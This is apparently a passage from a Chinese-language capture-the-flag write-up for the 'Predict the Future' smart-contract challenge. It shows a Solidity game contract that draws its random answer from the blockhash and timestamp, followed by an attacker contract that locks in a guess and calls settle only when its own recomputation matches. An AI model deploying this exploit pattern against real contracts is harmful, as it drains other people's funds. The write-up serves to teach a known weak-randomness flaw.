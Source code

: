 > 注意: 这里我们需要有两个动作 ,一个是`LockInGuess` 另一个是`Guess` , 这两个动作 都需要用中间合约来完成, 即不能用我们自己的小狐狸钱包进行传参数调用,

合约代码如下

```solidity
pragma solidity ^0.4.21;

contract PredictTheFutureChallenge {
    address guesser;
    uint8 guess;
    uint256 settlementBlockNumber;
    function PredictTheFutureChallenge() public payable {
        require(msg.value == 1 ether);
    }
    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }
    function lockInGuess(uint8 n) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = n;
        settlementBlockNumber = block.number + 1;
    }
    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}

contract attacker {
    PredictTheFutureChallenge target;
    constructor (address des) public {
        target = PredictTheFutureChallenge(des);

    }
    function attack() public payable {
        uint8 result = uint8(keccak256(blockhash(block.number-1),now)) % 10;
        if (result == 5) {
            target.settle();
        }
    }
    function lock() public payable {
        target.lockInGuess.value(1 ether)(5);
    }
    function settle() public {
        target.settle();
    }
    function withdraw() public {
        tx.origin.transfer(address(this).balance);
    }
    function () public payable {

    }
}
```
